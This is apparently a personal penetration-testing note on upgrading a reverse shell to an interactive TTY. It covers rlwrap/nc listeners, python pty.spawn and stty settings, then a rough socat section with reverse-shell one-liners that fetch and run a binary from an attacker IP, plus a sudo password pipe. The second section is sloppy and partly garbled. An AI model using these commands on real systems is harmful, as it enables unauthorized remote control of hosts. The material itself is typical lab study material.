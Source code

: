 Related Articles: [[Shells]]
Tags: #Maneuvers

---

# 📚 Definition:
Upgrading the shell to a fully interactive one let's us gain a more stable and more functional shell on the target host resulting in easier execution of commands, view, navigation and a more reliable session.

There are several methods and tools to accomplish this.

---
## Method 1:
Using **rlwrap** and **ncat**:
	First we will have to set up a listener: 
```bash
rlwrap nc -lvnp 4444
```

Once we got the connection back to our listener. On the target host we have to:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

This command is basically using python's PTY library (pseudo-terminal) to call the spawn() function and spawn a bash shell.

---

Then we have to **CTRL+Z** to background the shell.
```bash
stty raw -echo
```
This command will stop echoing on the local shell and it will turn it to raw mode which will allow for more direct communication.

```bash
stty size
```
This command will show the current size of the terminal, this will help us correlating the size of the target terminal with ours. 

---

Then we have to foreground the shell by typing fg in the terminal:
```bash
fg
```
This will bring back the shell.

---

Now in the target host's shell we have to:

```bash
export SHELL=bash
```
This will make sure that the shell used is bash.

```bash
stty rows $x columns $y
```
As said earlier, this will let us correlate the sizes of our shells so that the font is readable and cool.

```bash
export TERM=xterm-256color
```
This is will set the TERM variable which declares the terminal type. 256color is the color.


---
##### Method 2:
Using **socat**:
socat TCP4-LISTEN:443 STDOUT # to receive a connection

socat TCP4:IpAddress:port(443) EXEC:/bin/bash # to execute a bash shell in the another machine

then in attacker machines use wget <LOCAL-IP>:port of web_server/name_of_file-O /path of file to doenload it /new_name —- 
wget 10.10.16.22 :4444/socat -O /tmp/socat —>(command execute in target )

./socat TCP4:10.10.16.22:4445 EXEC:/bin/bash

python3 -c 'import pty;pty.spawn("/bin/bash")'

echo "your_password" | sudo -S -i

wget -q http://10.10.16.9:9090/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.9:4445


